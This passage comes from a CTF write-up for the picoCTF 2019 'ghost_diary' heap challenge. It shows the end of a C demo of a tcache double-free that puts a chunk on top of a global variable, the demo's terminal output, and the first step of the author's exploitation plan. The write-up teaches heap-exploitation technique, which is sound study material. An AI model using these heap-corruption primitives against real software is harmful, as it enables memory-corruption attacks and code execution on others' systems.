 ```c
    a[0] = (unsigned long long) &arbitrary_pointer;

    fprintf(stderr, "And now, the free list has [ %p %p ].\n\n", a, &arbitrary_pointer);
    fprintf(stderr, "Two more mallocs, and the second malloc gives us a chunk right on top of arbitrary_pointer\n\n");

    malloc(8);
    our_pointer = malloc(8);

    fprintf(stderr, "arbitrary_pointer: %p, our_pointer: %p\n", &arbitrary_pointer, our_pointer);

    return 0;
}

```
```
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/picoctf-2019/ghost_diary$ gcc a.c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/picoctf-2019/ghost_diary$ ./a.out
This file demonstrates a simple double-free attack with tcache.

We want a chunk on top of the global variable arbitrary_pointer at 0x555e1efe1030

Allocating buffer.
malloc(8): 0x555e20bac260
Freeing twice...
Now the free list has [ 0x555e20bac260, 0x555e20bac260 ].

Next we allocate one of the chunks

Now the free list has [ 0x555e20bac260 ].
Now we overwrite a's fd pointer to the address of arbitrary_pointer
And now, the free list has [ 0x555e20bac260 0x555e1efe1030 ].

Two more mallocs, and the second malloc gives us a chunk right on top of arbitrary_pointer

arbitrary_pointer: 0x555e1efe1030, our_pointer: 0x555e1efe1030
```

#### **Exploitation**

Now, hopefully I've explained everything clearly enough for everyone to be able to follow through with the writeup. If I haven't, please do consider spending a little bit more time skim-reading through the links I've provided above. I will try to explain the exploitation steps as clearly and as concisely as possible.

The challenge itself took me about 3.5 hours to figure out. The exploitation steps I used are laid out below. Please follow my exploit script (shown at the end) alongside each step to help visualise the heap at each step:

#### Step 1: **The setup**

* Set up three chunks that we will use for our exploit. These chunks will be A, B, and C respectively. A's size will be 0x128 (0x131 in memory due to metadata, `PREV_INUSE` bit set to 1), while B and C's sizes will be 0x118 (0x121 in memory due to metadata, `PREV_INUSE` bits set to 1).
